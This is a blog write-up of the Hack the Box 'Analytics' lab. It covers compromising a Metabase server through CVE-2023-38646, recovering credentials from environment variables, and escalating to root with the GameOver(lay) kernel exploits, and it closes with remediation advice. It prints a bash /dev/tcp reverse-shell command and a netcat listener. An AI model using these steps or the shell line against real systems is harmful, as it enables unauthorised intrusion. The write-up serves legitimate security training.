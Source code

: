 ```yaml
---
draft: false
title: "Hack the Box #2 - Analytics w/o Metasploit"
date: 2024-03-06T17:27:24+00:00
author: William
category:
  - Tech
tags:
  - Hacking
  - Security
cover:
  image: hack_the_box_2_analytics.png
  alt: hack_the_box_2_analytics.png
---
```

This is my first Hack the Box machine [pwned](https://www.hackthebox.com/achievement/machine/1695260/569) and it’s called Analytics. Here is a mock write-up of the lab because as we all know. It’s great being able to pwn things but if we can’t communicate the remediations to what we have done then there is no benefit past that juicy dopamine hit when you get root 😀

## Executive summary

The attacker achieved an initial foothold by abusing a pre-authentication remote code execution exploit to achieve a reverse shell. User credentials we then found in the environment variables and used to establish a user shell. This can be prevented by upgrading Metabase to the latest version and removing the environment variables with user account details if possible as a secondary objective.

Privilege was then escalated by using 2 kernel exploits from 2023 chained together. These can be remedied by upgrading our kernel version.  
The general recommendation is to update the software mentioned to later versions.

## Technical Findings
### Enumeration

Starting as per with a good old Nmap

![HackerImage](https://i.imgur.com/D6fORW7.png?resize=798%2C212&ssl=1#center)

Nothing of too much interest, let’s take a closer look at the website.

For this will need to put <http://analytical.htb/> in my hosts file and run this puppy through Burp suite

There isnt much here but the login reroutes us to <http://data.analytical.htb/>. Adding that to our hosts file gets us this lovely Metabase login screen

![HackerImage](https://i.imgur.com/OaJ9aIR.png?resize=504%2C552&ssl=1#center)

Lets dive into Metabase. There are default credentials available but those don't work. Looking for explicit exploits on the internet we find this [lovely git repo](https://github.com/Pyr0sec/CVE-2023-38646).

It allows for pre-auth remote code execution, this is exactly what we want. For this we need the setup token that can be found at the path `/api/session/properties`

Hitting this endpoint gets us a wonderful .json properties file. And within it we find the value of `setup-token` required for the execution of the exploit

![HackerImage](https://i.imgur.com/xVUvF7H.png?resize=1048%2C669&ssl=1#center)

### Exploitation

Using this wonderful script combined with the token we can initialize a reverse shell using the following command, oh and also don’t forget the listener on the other side:

`bash -i >& /dev/tcp/10.10.14.26/4444 0>&1<br></br>nc -nvlp 4444`

![HackerImage](https://i.imgur.com/HrFdCZ7.png?resize=1136%2C160&ssl=1#center)

The server returns an error message but we got the juicy juicy shell

![HackerImage](https://i.imgur.com/jmRtvHp.png?resize=537%2C183&ssl=1#center)

But sadly there is no flag in `/home/metabase` and mind you we are looking for both a user flag and a root flag… So is this not the user we are meant to be???

After a little digging around on this box for longer than I care to admit… I enumerated everything from cron jobs, running processes, kernel versions, installed apps, and much more looking for either user credentials or a route to escalate my privilage. I looked where I should have looked almost right away `env`

![HackerImage](https://i.imgur.com/S6NJTdc.png?resize=559%2C290&ssl=1#center)

And there is the puppy. META\_USER and META\_PASS. Now could these be used to log in to the open SSH port on 22?

![HackerImage](https://i.imgur.com/GTjtfdt.png?resize=652%2C152&ssl=1#center)

And it works! With our lovely user flag right there.

![HackerImage](https://i.imgur.com/woWFcy3.png?resize=711%2C38&ssl=1#center)

### Privilege Escalation

Now to get root. I came back to this bad boy while working in a coffee shop and used the pwnbox provided by Hack the Box as my attack box. Let’s see what we can do.

There are several things I tried to look through. What binaries run within the admin context? Nope… Perhaps some cron jobs? Nope

Well what is the kernel and OS we are running on?

![HackerImage](https://i.imgur.com/JLwNR2a.png?resize=799%2C70&ssl=1#center)

After a Google search for **linux 6.2.0-25-generic 22.04.2-ubuntu privilege escalation**, we found an interesting privilege escalation exploit called **GameOver(lay)** here is a link to a [POC on Github](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

The script is a massive one-liner so let’s copy that bad boy onto our target machine and give it execute permissions

![HackerImage](https://i.imgur.com/UlR3Ri3.png?resize=822%2C353&ssl=1#center)

This exploit makes use of two seperate vulnerabilities namely [**CVE-2023-2640**](https://www.cvedetails.com/cve/CVE-2023-2640/) and [**CVE-2023-32629**](https://www.cvedetails.com/cve/CVE-2023-32629/). Lets execute this bad boy!

![HackerImage](https://i.imgur.com/emOZ2X4.png?resize=741%2C112&ssl=1#center)

ROOT BABY!!! and we find a beautiful flag right where we want her!

![HackerImage](https://i.imgur.com/TaAKD3d.png?resize=601%2C47&ssl=1#center)

#### Conclusion

Both the exploitation of the Metabase and Kernel exploits can be solved with simply updating the respective software and operating system.

This was a fun lab and dont worry there are plenty more to come. Oh and if you have read this far… Go touch some grass 😀